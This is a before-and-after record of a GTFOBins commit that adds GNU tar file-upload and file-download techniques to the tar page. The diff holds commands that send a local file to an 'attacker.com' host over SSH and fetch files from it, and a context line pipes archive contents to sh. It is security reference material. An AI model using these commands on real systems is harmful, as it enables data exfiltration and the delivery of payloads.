

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/tar.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add file-download and file-upload to tar

```diff
--- a/_gtfobins/tar.md
+++ b/_gtfobins/tar.md
@@ -11,6 +11,21 @@ functions:
         tar cf "$TF.tar" "$TF"
         tar xf "$TF.tar" --to-command sh
         rm "$TF"*
+  file-upload:
+    - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
+      code: |
+        export RHOST=attacker.com
+        export RUSER=root
+        export RFILE=/tmp/file_to_send.tar
+        export LFILE=file_to_send
+        tar cvf $RUSER@$RHOST:$RFILE $LFILE --rsh-command=/bin/ssh
+  file-download:
+    - description: This only works for GNU tar. Download and extract a tar archive via SSH. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
+      code: |
+        export RHOST=attacker.com
+        export RUSER=root
+        export RFILE=/tmp/file_to_get.tar
+        tar xvf $RUSER@$RHOST:$RFILE --rsh-command=/bin/ssh
   file-write:
     - description: This only works for GNU tar.
       code: |
```
